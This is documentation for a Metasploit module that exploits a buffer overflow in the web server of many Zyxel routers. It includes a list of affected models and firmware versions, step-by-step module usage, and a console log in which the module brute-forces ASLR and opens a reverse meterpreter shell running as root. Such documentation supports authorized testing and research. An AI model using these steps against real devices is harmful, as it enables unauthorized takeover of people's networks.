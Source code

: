 ## Vulnerable Application

This module exploits a buffer-overflow in multiple Zyxel devices. The vulnerability stems from missing string length
checks. The vulnerability can only be exploited from the LAN side, but does not require authentication. As ASLR is
activated, the libc address will be bruteforced. Thus the webserver will crash until successful exploitation. On
average this process takes 20 minutes.

This vulnerability was discovered by Steffen Robertz, Gerhard Hechenberger, Stefan Viehboeck and Thomas Weber of the SEC
Consult Vulnerability Lab in Vienna. The full writeup of all vulnerabilities is available here:
[https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-multiple-zyxel-devices/]


| Device       | Firmware  |
| ------------ | --------- |
| AMG1302-T11C | EOL       |
| VMG3925-B10C | EOL       |
| VMG8924-B10D | EOL       |
| VMG1312-B10D | EOL       |
| VMG3312-T20A | EOL       |
| VMG3625-T20A | EOL       |
| VMG3925-B10B | EOL       |
| VMG3925-B10C | EOL       |
| VMG3925-B30C | EOL       |
| VMG3926-B10A | EOL       |
| VMG5313-B10B | EOL       |
| VMG5313-B30B | EOL       |
| VMG8623-T50A | EOL       |
| VMG8823-B10B | EOL       |
| VMG8823-B30B | EOL       |
| VMG8823-B50B | EOL       |
| VMG8823-B60B | EOL       |
| VMG8924-B10D | EOL       |
| VMG8924-B30D | EOL       |
| PMG5317-T20A | EOL       |
| DX3301-T0 | V5.50(ABVY.3)C0 |
| DX5401-B0 | V5.17(ABYO.1)C0 |
| EMG3525-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG3525-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5523-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG5523-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5723-T50K | V5.50(ABOM.7)C0 |
| EX3301-T0 | V5.50(ABVY.3)C0 |
| EX5401-B0 | V5.17(ABYO.1)C0 |
| EX5501-B0 | V5.17(ABRY.2)C0 |
| LTE3301-PLUS | V1.00(ABQU.3)C0 |
| LTE7240-M403 | V2.00(ABMG.4)C0 |
| VMG1312-T20B | V5.50(ABSB.5)C0 |
| VMG3625-T50B | V5.50(ABPM.6)C0 |
| VMG3927-B50A | V5.17(ABMT.6)C0 |
| VMG3927-B60A | V5.17(ABMT.6)C0 |
| VMG3927-T50K | V5.50(ABOM.7)C0 |
| VMG4005-B50A | V5.15(ABQA.2)C0 |
| VMG8623-T50B | V5.50(ABPM.6)C0 |
| VMG8825-B50A | V5.17(ABMT.6)C0 |
| VMG8825-B50B | V5.17(ABNY.7)C0 |
| VMG8825-B60A | V5.17(ABMT.6)C0 |
| VMG8825-B60B | V5.17(ABNY.7)C0 |
| VMG8825-T50K | V5.50(ABOM.7)C0 |
| XMG3927-B50A | V5.17(ABMT.6)C0 |
| XMG8825-B50A | V5.17(ABMT.6)C0 |
| VPN2S | V1.20(ABLN.2)_00210319C1 |
| AX7501-B0 | V5.17(ABPC.1)C0 |
| EP240P | V5.40(ABVH.1)C0 |
| PMG5317-T20B | V5.40(ABKI.4)C0 |
| PMG5617GA | V5.40(ABNA.2)C0 |
| PMG5622GA | V5.40(ABNB.2)C0 |
| WX3100-T0 | V5.50(ABVL.1)C0 |
| WX3401-B0 | V5.17(ABVE.1)C0 |
| WSQ50 (Multy X) | V2.20(ABKJ.7)C0 |
| WSQ60 (Multy Plus) | V2.20(ABND.8)C0 |

## Verification Steps
 Follow these steps to exploit the target:

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: `use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce`
  4. Set RHOST, LHOST and SRVHOST
  5. Do `check`
  6. Do: `run`
  7. You should get a shell. On average this will take 20 minutes.
## Options
```
Module options (exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
   

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```



## Scenarios
```
msf6 > use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set LHOST XXX.XXX.XXX.XXX
LHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set RHOSTS XXX.XXX.XXX.XXX
RHOSTS => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > check
[+] XXX.XXX.XXX.XXX:80 - The target is vulnerable.
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set SRVHOST XXX.XXX.XXX.XXX
SRVHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Attempting to exploit VMG3312-T20A <= EOL
[*] Starting up our web service on XXX.XXX.XXX.XXX:8080 ...
[*] Using URL: http://XXX.XXX.XXX.XXX:8080/o
[*] Going to bruteforce ASLR, this will take a while...
[*] Trying to overflow the buffer, attempt 1
[*] Trying to overflow the buffer, attempt 2
[*] Trying to overflow the buffer, attempt 3
[*] Trying to overflow the buffer, attempt 4
[*] Trying to overflow the buffer, attempt 5
[*] Trying to overflow the buffer, attempt 6
[*] Trying to overflow the buffer, attempt 7
[*] Trying to overflow the buffer, attempt 8
[*] Trying to overflow the buffer, attempt 9
[*] Trying to overflow the buffer, attempt 10
[...]
[*] Trying to overflow the buffer, attempt 135
[*] Trying to overflow the buffer, attempt 136
[*] Trying to overflow the buffer, attempt 137
[*] Trying to overflow the buffer, attempt 138
[*] Trying to overflow the buffer, attempt 139
[+] XXX.XXX.XXX.XXX:80 - Sending executable to the router
[+] XXX.XXX.XXX.XXX:80 - A shell should connect soon!
[*] Sending stage (908480 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:55253) at 2022-07-24 19:03:41 +0200
[*] Server stopped.

meterpreter > shell
Process 9871 created.
Channel 1 created.
id
uid=0(root) gid=0
```
